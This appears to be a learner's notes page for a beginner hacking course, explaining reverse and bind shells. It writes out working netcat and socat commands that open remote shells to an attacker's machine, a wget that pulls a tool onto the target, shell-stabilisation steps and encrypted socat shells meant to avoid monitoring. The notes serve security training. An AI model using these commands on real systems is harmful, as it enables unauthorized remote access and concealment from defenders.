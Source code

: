 ```yaml
---
description: Section nine of the Complete Beginner learning path.
---
```


# 9. What the shell?

### Introduction

At a high level, there are two kinds of shell that are important when exploiting a target: reverse shells, and bind shells.

A reverse shell is when a target is forced to execute code that will connect back to your computer. On your own PC you will need to run a listener to receive the connection. Reverse shells are good to bypass firewall rules, however, you will need to configure your own network to accept the shell.

A bind shell is when the code executed on the target starts a listener attached to a shell on the target. This is then open on the internet which allows you to connect to the open port and obtain RCE. This does not require any configuration on your machine but it may be blocked by firewalls.

### Reverse Shells

To set up a very, very basic reverse shell, run the command `sudo nc -lvnp [port_number]` on your machine, and run the command `nc [local_ip] [port_number] -e /bin/bash` on the target machine.

The syntax for netcat listener breaks down to:

* \-l : tells netcat it will be a listener
* \-v : request verbose output
* \-n : tells netcat not to resolve hostnames or use DNS
* \-p : indicates port specification follows

If you use a port number below port 1024 you will need to run this using `sudo`.

For a basic reverse shell listening using socat, the syntax is: `socat TCP-L:[port] -`. This takes two points and connects them together. We can use the following command on Windows to connect back to this: `socat TCP:[LOCAL_IP]:[LOCAL_PORT] EXEC:powershell.exe,pipes`. The "pipes" option is used to force PowerShell to use Unix standard input and output. The equivalent command in Linux is: `socat TCP:[LOCAL_IP]:[LOCAL_PORT] EXEC:"bash -li"`.

### Bind Shells

To set up a very, very basic bind shell, run the command `nc -lvnp [port_number] -e "cmd.exe"` on the target machine and run `nc [IP_ADDR] [port_number]` on your attacking machine.

To get a bind shell socat listener, we can run the following on Linux: `socat TCP-L:[PORT] EXEC:"bash -li"`. On Windows, we can run `socat TCP-L:[TARGET_IP]:[TARGET_PORT]` to achieve the same result.

### Shell Stabilisation

Using Python:

1. Run `python -c 'import pty;pty.spawn("/bin/bash")'` which uses Python to spawn a better bash shell. This may depend on the version of `python` on the machine, to account for this, just replace the initial `python` with `python2` or `python3`.
2. Run `export TERM=xterm`, which will give us access to commands like `clear`.
3. Finally, background this shell using `CTRL + Z`, in your own terminal now use `stty raw -echo; fg`. This turns off our own terminal echo (giving access to autocompletes, arrow keys and `CTRL + C` process kill). This foregrounds the shell & completes the process.

Note: if this shell dies you will need to type `reset` and hit enter to restore your shell.

Using rlwrap:

rlwrap gives access to history, tab autocomplete, and the arrow keys immediately on getting the shell; however, manual stabilisation must be used to be able to use `CTRL + C` inside the shell. To install this run: `sudo apt install rlwrap`. To use rlwrap, invoke `rlwrap nc -lvnp [port_number]`.&#x20;

This method is useful when dealing with Windows shells, when dealing with a Linux target you can fully stablise by following step 3 of the Python technique; background the shell and run `stty raw -echo; fg`.

Using Socat:

Socat will only work on Linux for stablisation. To use this method a socat static compiled binary must be uploaded to the target, this can be done using `sudo python3 -m http.server 80` on your attacking machine and `wget [IP_ADDR]/socat -O /tmp/socat` on the target machine.

With these techniques it can also be useful to change terminal size. To do this, open another terminal and run stty -a, this will show a number of "rows" and "columns". Back in the reverse/bind shell, run `stty rows [NUMBER]` and then `stty cols [NUMBER]`, replacing `[NUMBER]` with the values you got from your own terminal.

To get a fully stable Linux tty reverse shell using socat, we can run: ``socat TCP-L:[PORT] FILE:`tty`,raw,echo=0``.

### Socat Encrypted Shells

Socat can create both bind and reverse encrypted shells. Encrypted shells cannot be spied on. Firstly, we need to generate a certificate to use encrypted shells, we should run this on our attacking machine:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This creates a 2048 bit RSA key and matching cert, valid for just under a year. When this command runs, it will ask for info, this can be left blank or filled with nonsense. The two created files then need to be merged into a `.pem` file:

```
cat shell.key shell.crt > shell.pem
```

Now, when we set up the reverse shell listener, we use:

```
socat OPENSSL-LISTEN:[PORT],cert=shell.pem,verify=0
```

Here, the `verify=0` tag tells the connection not to bother trying to validate the certificate. The certificate must be used on whatever device is listening. To connect back to this we use:

```
socat OPENSSL:[LOCAL_IP]:[LOCAL_PORT],verify=0 EXEC:/bin/bash
```

The same technique applies for a bind shell, on the target run:

```
socat OPENSSL-LISTEN:[PORT],cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

On the attacker run:

```
socat OPENSSL:[TARGET_IP]:[TARGET_PORT],verify=0
```
